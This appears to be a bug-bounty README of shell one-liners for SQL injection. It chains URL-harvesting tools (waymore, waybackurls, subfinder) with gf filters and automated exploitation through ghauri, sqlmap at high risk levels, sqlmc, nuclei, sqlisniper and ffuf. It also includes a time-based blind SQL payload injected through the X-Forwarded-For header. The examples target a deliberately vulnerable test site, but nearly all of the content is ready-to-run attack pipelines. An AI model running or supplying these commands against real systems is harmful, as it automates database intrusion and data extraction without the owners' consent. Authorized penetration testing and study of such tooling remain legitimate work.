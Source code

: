 # SQLis

### waymore, qsreplace, gf, ghauri

```
waymore -i "testphp.vulnweb.com" -n -mode U | qsreplace -a "FUZZ" | grep "FUZZ" | sed 's/FUZZ//g' | gf sqli | sort -u | while read urls; do ghauri -u "$urls" --dbs --threads 2 --batch --level 2 | tee -a ghauri.sqli.txt; done
```

### waymore, qsreplace, gf, sqlmc

```
waymore -i "testphp.vulnweb.com" -n -mode U | qsreplace -a "FUZZ" | grep "FUZZ" | sed 's/FUZZ//g' | gf sqli | sort -u | while read urls; do sqlmc --url "$urls" -d 3 -o sqlmc.txt; done
```

### waymore, qsreplace, gf, nuclei

```
waymore -i "testphp.vulnweb.com" -n -mode U | qsreplace -a "FUZZ" | grep "FUZZ" | sed 's/FUZZ//g' | gf sqli | sort -u | nuclei -t ~/nuclei-templates/dast/vulnerabilities/sqli/sqli-error-based.yaml -dast -o nuclei_sqli.txt
```


### waybackurls, gf, sqlmap

```
waybackurls | sort -u | gf sqli >> sqli; sqlmap -m sqli --batch --random-agent --level 3 --risk 3
```

### subfinder, httpx, waybackurls, gf, ghauri

```
subfinder -d vulnweb.com -recursive -all -silent | httpx | waybackurls | sort -u | gf sqli | sort -u | while read urls; do ghauri -u "$urls" --dbs --threads 2 --batch --level 2 | tee -a ghauri.sqli.txt; done
```

### waymore

```
waymore -i "testphp.vulnweb.com" -n -mode U | grep ".php" | sed 's/\.php.*/.php\//' | sort -u | sed s/$/%27%22%60/ | while read url do ; do curl --silent "$url" | grep -qs "You have an error in your SQL syntax" && echo -e "$url \e[1;32mSQLI by Cybertix\e[0m" || echo -e "$url \e[1;31mNot Vulnerable to SQLI Injection\e[0m" ;done
```


# Blind SQLis

### waymore, qsreplace, gf, sqlisniper

```
waymore -i "testphp.vulnweb.com" -n -mode U | qsreplace -a "FUZZ" | grep "FUZZ" | sed 's/FUZZ//g' | gf sqli | sort -u | while read urls; do sqlisniper -p -u "$urls" --payload /usr/share/wordlists/my-payloads/SQLi/Blind-SQLis/bsqli-sniper.txt --headers /opt/sqli/SqliSniper/headers.txt -o SQLi_blind_sniper.txt; done
```

### waybackurls

```
waybackurls -no-subs testphp.vulnweb.com | grep -E '\bhttps?://\S+?=\S+' | grep -E '\.php|\.asp' | sort -u | sed 's/\(=[^&]*\)/=/g' | tee urls.txt | sort -u -o urls.txt 
```

### waymore, qsreplace, gf, ffuf

```
waymore -i "testphp.vulnweb.com" -n -mode U | qsreplace "FUZZ" | gf sqli | sort -u | while read urls; do ffuf -u "$urls" -w /usr/share/wordlists/my-payloads/SQLi/Blind-SQLis/blind-sqli.txt -mt ">18000" -v -mc 200 -enc FUZZ:urlencode -timeout 150 -o SQLi_blind_ffuf.json; done
```


# Header based SQLis

```
subfinder -d vulnweb.com -recursive -all -silent | httpx -silent -H "X-Forwarded-For: 'XOR(if(now()=sysdate(),sleep(13),0))OR" -rt -timeout 20 -mrt '>13' | tee -a header_based_bsqli.txt
```




# Resources

https://github.com/Gerxnox/One-Liner-Collections

https://github.com/0xPugal/One-Liners

https://github.com/daffainfo/Oneliner-Bugbounty

https://github.com/thecybertix/One-Liner-Collections

https://github.com/dwisiswant0/awesome-oneliner-bugbounty
